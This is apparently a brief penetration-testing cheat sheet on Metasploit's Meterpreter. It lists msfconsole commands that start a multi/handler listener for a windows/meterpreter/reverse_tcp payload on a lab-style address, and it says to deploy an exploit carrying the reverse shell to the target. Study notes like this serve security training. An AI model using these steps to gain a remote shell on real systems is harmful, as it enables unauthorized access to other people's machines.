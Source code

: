 # Meterpreter

Module used to get remote access to target hosts.

1. start handler (listener) with payload tailored to target host

```
msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 10.11.0.xxx

#set optins

msf exploit(multi/handler) > exploit
# wait for session
```

2. Deploy exploit containing meterpreter reverse sehll on target host

